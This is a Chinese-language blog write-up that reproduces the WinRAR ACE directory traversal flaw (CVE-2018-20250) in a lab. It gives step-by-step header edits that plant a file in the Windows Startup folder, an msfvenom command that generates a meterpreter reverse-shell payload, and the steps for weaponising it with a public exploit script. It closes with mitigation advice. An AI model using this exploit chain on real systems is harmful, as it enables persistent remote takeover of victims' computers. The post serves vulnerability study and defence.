# 【漏洞复现】WinRAR 目录穿越漏洞（CVE-2018-20250）复现 - fox-yu - 博客园

> 原文：[`www.cnblogs.com/fox-yu/p/10495236.html`](https://www.cnblogs.com/fox-yu/p/10495236.html)

##  前言

这漏洞出来几天了，之前没怎么关注，但是这两天发现开始有利用这个漏洞进行挖矿和病毒传播了，于是想动手复现一波。

WinRAR 代码执行相关的 CVE 编号如下：

> CVE-2018-20250,CVE-2018-20251, CVE-2018-20252, CVE-2018-20253

这里我们复现最开始的 WinRAR 目录穿越漏洞（CVE-2018-20250）。

## 漏洞详情

### 原理：

WinRAR 目录穿越漏洞（CVE-2018-20250）：

　　该漏洞是由于 WinRAR 所使用的一个陈旧的动态链接库 UNACEV2.dll 所造成的，该动态链接库在 2006 年被编译，没有任何的基础保护机制(ASLR,DEP 等)。该动态链接库的作用是处理 ACE 格式文件。而在解压处理过程中存在一处目录穿越漏洞,允许解压过程写入文件至开机启动项，导致代码执行。

### 影响版本：

> WinRAR < 5.70 Beta 1
> 
> Bandizip < = 6.2.0.0
> 
> 好压(2345 压缩) < = 5.9.8.10907
> 
> 360 压缩 < = 4.0.0.1170

### 漏洞利用条件：

　　攻击不能跨盘符，即受害者进行解压文件触发漏洞时，必须在系统盘，且在不知道计算机主机名的情况下，只能在主浏览器的默认下载路径下（C:\Users\Administrator\Downloads）或者桌面进行解压，或者多猜几个启动项路径。产生漏洞的 DLL 文件：UNACEV2.DLL，不能识别相对路径，文件名部分必须为绝对路径。

以下是几种机器的开机启动项路径，可以看到在个人 PC 上受用户名影响，无法猜测到准确的路径，而服务器上一般不会修改用户名，所以这个漏洞在服务器上利用度比较高。 

Win2003 开机启动项路径：C:\Documents and Settings\Administrator\「开始」菜单\程序\启动

Win2008 开机启动项路径：C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win2012 开机启动项路径：C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win7　  开机启动项路径：C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup

Win10　开机启动项路径：C:\Users\用户\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup　　本次试验使用的是 Win2008，

## 漏洞复现

### 环境工具：

服务器：Win2008 R2

WinRAR 5.60 简体中文版：https://www.rarlab.com/rar/winrar-x64-560sc.exe

Python-3.7.2-amd64.exe：https://www.python.org/ftp/python/3.7.2/python-3.7.2-amd64.exe

010Editor：https://download.sweetscape.com/010EditorWin64Installer901.exe

Wace 和模板文件：https://github.com/360-A-Team/CVE-2018-20250

EXP：https://github.com/WyAtu/CVE-2018-20250

### 漏洞复现：

这里我们写一个 bat，进行弹窗演示：


然后打开 WinAce，选中我们创建的文件，右键，点击 Add to...



　　利用 WinACE 进行压缩,这里选择 store full path。


　　生成之后我们利用脚本检查一下我们生成的文件 1.ace 的 header 信息：



这里几个是我们需要修改的参数。

 在 010Edit 工具中打开刚才生成的 1.ace 文件，将文件路径替换为启动项路径如下，然后可以看到新的完整的文件路径长度为 93，转换为 16 进制后为：5D。



修改完这两个地方之后点击保存，接着还需要修改 hdr_size。




　　这三个地方修改完成之后点击保存。

　　最后利用 acefile.py 重新查看文件 header 信息。修改 acefile.py，在 3061 行处添加以下语句，输出文件 hdr_crc。


```
print("[+] right_hdr_crc : {} | struct {} ".format(hex(ace_crc16(buf)),struct.pack('<H', ace_crc16(buf)))) print("[*] current_hdr_crc : {} | struct {}".format(hex(hcrc),struct.pack('<H', hcrc)))
```



可以看到当前的 hdr_crc 为：16 9A，我们要把它改为 E4 A3，保存之后重新查看文件 header 信息。



　　修改完成，将文件另存为 1.rar。



 选择解压到当前文件夹或解压到文件夹 1 都可以，可以看到 bat 文件成功解压到开机启动项里。



重启电脑查看效果。



复现成功，自动运行 bat 文件弹窗。

## MSF 利用

 　　首先下载 EXP：

```
wget https://github.com/WyAtu/CVE-2018-20250/archive/master.zip
```

　　这里我解压/root/tools 目录下：



　　然后利用 msf 生成一个恶意程序，放到该目录下：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=192.168.86.129 lport=4444 -f exe -o /root/tools/CVE-2018-20250-master/test.exe
```

 　　修改 exp.py 文件：


　　将 evil_filename 改为我们生成的恶意程序。



　　将 py -3 改为 python3，修改完成之后保存，运行以下命令：

```
python3 exp.py 
```



　　成功生成攻击文件 test.rar，只要诱导用户下载解压这个压缩文件呢，就可得到用户电脑权限，这里只演示功能，我们用 python 简单开启一个 http 服务：

```
python -m SimpleHTTPServer
```

　　切换到 win2008，也就是我们要攻击的目标机器。下载 test.rar，然后直接在下载目录解压（也可选择在桌面解压）。





　　可以看到在系统的启动路径下成功解压出 hi.exe 文件。接着我们在 kali 上面开启监听，然后重启 win2008。



　　成功拿到目标机器权限。

## 漏洞防御

　　删除受影响压缩软件目录下 UNACEV2.dll 文件能有效防御。
　　升级到最新版本，WinRAR 目前版本是 5.70 Beta 1。
　　总而言之，该漏洞并没有那么致命。目标性的打站，得先欺骗下载，并再在未防护的服务器上解压，企业服务器管理员都很难会这样做。而且必须得服务器重启才能生效，不能直接执行脚本。

## 参考链接：

https://blog.csdn.net/qq_29910529/article/details/88069707

https://bbs.pediy.com/thread-249613.htm

https://www.cnblogs.com/backlion/p/10417985.html

https://mp.weixin.qq.com/s/qT-lL-kCDHJKCMCmeQq7Ng

http://www.hetianlab.com/expc.do?ce=7ebc7ed1-ab4b-4eba-9451-02954d9b7b00

```
笨鸟先飞早入林，笨人勤学早成材。

转载请注明出处：
撰写人：fox-yu  http://www.cnblogs.com/fox-yu/
```